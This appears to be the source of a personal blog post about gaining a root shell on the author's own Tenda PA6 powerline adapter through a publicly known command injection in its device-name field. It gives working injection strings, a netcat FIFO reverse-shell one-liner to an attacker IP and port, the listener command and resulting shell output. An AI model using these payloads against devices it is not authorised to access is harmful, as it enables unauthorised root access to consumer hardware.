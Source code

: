 ```yaml
---
title: "Breaking into your Tenda PA6 Powerline adaptor"
date: 2023-09-10T11:25:58+01:00
description: "Using a command injection to get a root shell on a Tenda PA6 Powerline adaptor"
keywords: ["infosec", "tenda pa6", "powerline"]
draft: false
tags: ["projects", "security"]
math: false
toc: false
---
```


{{< image path="tenda-pa6.jpg" alt="My Tenda PA6 in the attic" lazy=false >}}

So I have a little Tenda PA6 Powerline/HomePlug WiFi extender that I use as an additional WAP in the attic room of my house. This room has been getting very hot recently (around 35 °C), and when I touch the device it feels to be at least 60 °C. Tenda's website says that the PA6 can operate in temperatures up to 40 °C, but I wanted to see if I could get some temperature readings out of the device to see how hot it is actually getting. 

What I should have done here is buying an infrared thermometer, but where is the fun in that?

Conveniently for me, some security researchers from IBM have already made a [pretty comprehensive write-up](https://securityintelligence.com/posts/vulnerable-powerline-extenders-underline-lax-iot-security/) of all the holes in the PA6. In typical vendor fashion, Tenda have not fixed any of these issues in the 3 years since they published the article. The researchers provide 3 exploits for the device, an authed Command Injection, an authed Buffer Overflow, and a pre-auth DoS. As I have the admin password (the default is `admin` 🤦), I decided to go with the Command Injection, which I figured would be the easiest to exploit.

{{< image path="tenda-powerline-settings.png" alt="Screenshot of the Powerline settings page on the Tenda PA6" >}}

The Command Injection issue is as basic as it gets. On the device's powerline settings page, you can change the names of the other PLCs on the network. Unfortunately, this name change is done by simply `sprintf`'ing the raw user input into a string, which is then executed as a command on the system, as root. This means you just need to put a little `" ;` in your chosen name, and then you can run any command present on the device. The security researchers don't quite spell out how to exploit this, but even I managed it after a few hours of head scratching.

Conveniently, the PA6 has BusyBox installed, which has a `netcat` binary for us to use --- I found out about this from a [GitHub gist](https://gist.github.com/Weissnix4711/eeb54186469d313d07ffb44d00344a3f) listing all the files in the firmware image. As I wanted a shell on the PA6, we can use `netcat` to pipe a shell session over a TCP socket back to my attacker PC (a reverse shell). 

To do this you first need to spin up a `netcat` listener on your attacker PC, which will listen for incoming connections. I did this with `nc -lvp 4444`. Note in this example my attacker PC has the IP address `192.168.1.100`.

Then we begin to work on the PA6, pasting our commands into one of the PLC device name fields. The version of `nc` on the PA6 doesn't have the convenient `-e` option that handles executing a command for you, so instead we have to do a dance with a named FIFO pipe [^1]. You first paste in:

[^1]: The PA6 uses a very old version of BusyBox, v1.17.2, which was released in August 2010. Weirdly it was compiled 8 years later, on `2018-01-22 01:08:54`. From digging in the source code, it seems the `-e` switch was available in BusyBox v1.17.2's `nc`, but it seems to have been compiled without the `NC_EXTRA` option.

```bash
a" ; mknod /tmp/f p #
```

Here `a` is just a placeholder name. You can then set up the reverse shell by pasting the following into the same field [^2]:

[^2]: You'd normally do this in a single step, but this field only accepts 63 characters. I'm assuming this is just a client side limit, so you could probably sidestep it by sending the request with `curl` or something. 

```bash
a" ; cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 4444 >/tmp/f #
```

What we are doing here is passing whatever comes out of the `/tmp/f` pipe into the `stdin` of the shell. We then pipe the `stdout` and `stderr` of the shell into `netcat`, which will send it back to our attacker PC. Finally, we redirect the `stdout` of `netcat` (which is whatever commands we input on the attacker PC), back into the `/tmp/f` pipe. This gives us a poor man's SSH session on the PA6.

`netcat` on your attacker PC should then print some message like:

```bash
Ncat: Connection from 192.168.1.XX.
Ncat: Connection from 192.168.1.XX:XXXXX.

BusyBox v1.17.2 (2018-01-22 01:08:54 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

Now you can explore! Here is `/proc/cpuinfo`, (some of) `/proc/meminfo` and `/proc/version`:

```bash
# cat /proc/cpuinfo
system type             : 960500WIFI_P201
processor               : 0
cpu model               : Broadcom BMIPS3300 V3.3
BogoMIPS                : 397.31
wait instruction        : yes
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : no
hardware watchpoint     : no
ASEs implemented        :
shadow register sets    : 1
kscratch registers      : 0
core                    : 0
VCED exceptions         : not available
VCEI exceptions         : not available

# cat /proc/meminfo
MemTotal:          29468 kB
MemFree:            1288 kB
Buffers:             700 kB
Cached:             3808 kB
SwapCached:            0 kB
Active:             5680 kB
Inactive:           2028 kB
[...]
VmallocTotal:    1032116 kB
VmallocUsed:        2784 kB
VmallocChunk:    1025180 kB

# cat /proc/version
Linux version 3.4.11-rt19 (root@localhost.localdomain) (gcc version 4.6.2 (Buildroot 2011.11) ) #1 PREEMPT Mon Jan 22 01:07:36 CST 2018
```

A whole 32 MB of RAM! Here is `top`:

```bash
Mem: 28240K used, 1228K free, 0K shrd, 740K buff, 3816K cached
CPU:   0% usr   5% sys   0% nic  93% idle   0% io   0% irq   0% sirq
Load average: 0.84 0.78 0.78 1/47 17193
  PID  PPID USER     STAT   VSZ %MEM CPU %CPU COMMAND
  250     2 admin    SW       0   0%   0   5% [wl0-kthrd]
  217     2 admin    SW       0   0%   0   1% [bcmsw_rx]
17147 15971 admin    R     1712   6%   0   0% top
  588   294 admin    S     5348  18%   0   0% httpd -m 0
  415   294 admin    S     4704  16%   0   0% wlmngr -m 0
  422   421 admin    S     4704  16%   0   0% wlmngr -m 0
  421   415 admin    S     4704  16%   0   0% wlmngr -m 0
  418   294 admin    S     3888  13%   0   0% homeplugd -m 0
  295   294 admin    S     3848  13%   0   0% ssk
  420   419 admin    S     3784  13%   0   0% consoled
  294     1 admin    S     3504  12%   0   0% /bin/smd
  416   294 admin    S     3428  12%   0   0% plcnvm -m 0
  543     1 admin    S     1948   7%   0   0% /bin/nas
  310   294 admin    S     1764   6%   0   0% syslogd -n -C -l 7
  565     1 admin    S     1712   6%   0   0% /bin/acsd
15971 15966 admin    S     1712   6%   0   0% /bin/sh -i
    1     0 admin    S     1708   6%   0   0% init
15966   588 admin    S     1708   6%   0   0% sh -c homeplugctl remote_set --rem
  419     1 admin    S     1708   6%   0   0% -/bin/sh -l -c consoled
15972 15966 admin    S     1704   6%   0   0% nc 192.168.1.100 4444
```

Unfortunately, I couldn't actually find any way of reading any temperature sensors on the device. I tried looking in `/sys/class/thermal`, and a couple of other places, but nothing seemed to present itself. Presumably this SOC just doesn't have any temperature sensors.